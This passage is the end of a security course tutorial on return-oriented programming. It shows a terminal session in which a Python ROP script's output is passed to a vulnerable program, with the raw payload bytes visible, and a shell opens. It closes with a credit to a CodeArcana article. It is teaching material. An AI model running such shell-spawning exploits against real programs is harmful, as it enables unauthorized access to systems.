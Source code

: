 ``` example
user@si485H-base:demo$ ./vulnerable `python shell_rop.py`
Buf: ++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++z`F?
                                                                                                                        /binﾭ?zdF?
z?????@?                                                                                                                         //shﾭަ`fffffffffff]????l?
$ echo "Go Navy, Beat Army!"
Go Navy, Beat Army!
$ 
```

THE END!

[1] Much of the ROP examples are adapted from
[CodeArcanna](http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html)
article by Alex Reese, Tue 28 May 2013.

